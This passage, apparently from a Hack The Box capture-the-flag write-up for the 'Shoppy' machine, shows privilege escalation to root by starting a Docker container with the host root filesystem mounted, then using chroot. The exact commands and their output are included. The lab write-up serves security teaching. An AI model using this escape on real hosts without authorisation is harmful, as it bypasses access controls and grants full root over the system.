 The exploit here is to create a new container that has the entire file
system mounted into it. In that container, I'll be root, and thus have
full access to all the files in the container (including the full host
filesystem).

I've shown this several times with `lxc` before, but never like this
with Docker ([GoodGames](/htb-goodgames.md#shell-1) is the
closest example).

I'll start the container with `docker run` and the following options:

-   `--rm` - remove the container when it's done
-   `-it` - keep STDIN open and assign a PTTY
-   `-v /:/mnt` - mount the host `/` to `/mnt` inside the container

I'll also give it the image name (alpine) and the command to run
`/bin/sh` (no `bash` on Alpine). With these, I can start the image and
find the host file system in `/mnt`:



    deploy@shoppy:~$ docker run --rm -it -v /:/mnt alpine /bin/sh
    / # ls
    bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var
    / # ls /mnt/
    bin             dev             home            initrd.img.old  lib32           libx32          media           opt             root            sbin            sys             usr             vmlinuz
    boot            etc             initrd.img      lib             lib64           lost+found      mnt             proc            run             srv             tmp             var             vmlinuz.old



#### Neat Upgrade

A neat trick from the [Docker GTFObins
page](https://gtfobins.github.io/gtfobins/docker/) is to use `chroot`
instead of `sh` as the command. I don't really need anything in the
container filesystem. So I'll call `chroot /mnt /bin/sh` (giving it a
command to run as well, see the [man
page](https://linux.die.net/man/1/chroot)). This will set the root of
the filesystem to be what was `/mnt`, and then run a shell. This gives
the feel as if I'm just back on the host:



    deploy@shoppy:~$ docker run --rm -it -v /:/mnt alpine chroot /mnt sh
    # ls
    bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old



#### Read Flag

From here I can read `root.txt`:
